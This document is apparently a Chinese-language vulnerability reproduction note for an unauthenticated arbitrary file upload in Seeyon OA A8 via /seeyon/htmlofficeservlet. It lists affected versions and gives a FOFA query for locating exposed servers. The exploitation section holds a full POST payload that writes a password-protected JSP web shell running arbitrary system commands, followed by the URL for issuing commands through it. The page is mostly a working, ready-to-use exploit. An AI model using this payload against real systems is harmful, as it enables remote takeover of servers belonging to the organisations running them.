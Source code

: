 # 致远OA A8 htmlofficeservlet 任意文件上传漏洞

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## FOFA

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

## 影响版本

```
致远A8-V5协同管理软件V6.1sp1
致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
致远A8+协同管理软件V7.1
```

## 漏洞复现

访问目标站点

```
/seeyon/htmlofficeservlet
```

出现如下图响应，则可能含有漏洞

![image-20220520153223889](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201532921.png)

使用POST请求发出如下请求包

```
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("
<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![image-20220520153242842](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201532919.png)

出现如图响应则为上传成功,访问

```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```

![image-20220520153301492](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201533547.png)